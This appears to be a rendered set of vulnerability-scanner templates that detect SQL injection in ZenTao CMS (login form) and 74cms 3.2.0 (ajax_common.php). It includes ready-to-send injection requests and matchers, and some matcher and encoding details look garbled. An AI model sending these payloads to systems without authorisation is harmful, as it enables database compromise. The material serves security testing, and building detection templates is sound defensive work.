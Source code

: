 **Type - word**
- part - body
- words
    1. {{md5({{num}})}}

**Type - status**
- status
    1. 200

---
# ZenTao CMS - SQL Injection
## Description
- ZenTao CMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cnvd,cnvd2022,zentao,sqli
## Requests
### Step - 1
```
POST /zentao/user-login.html HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Referer: {{BaseURL}}/zentao/user-login.html

account=admin'+and++updatexml(1,concat(0x1,md5({{num}})),1)+and+'1'='1

```
### Matchers

**Type - word**
- part - body
- words
    1. c8c605999f3d8352d7bb792cf3fdb25

---
# 74cms - ajax_common.php SQL Injection
## Description
- SQL Injection in 74cms 3.2.0 via the query parameter to plus/ajax_common.php.

- severity - critical
- tags - cve,cve2020,74cms,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/plus/ajax_common.php?act=hotword&query=aa%錦%27%20union%20select%201,md5({{num}}),3%23%27
### Matchers

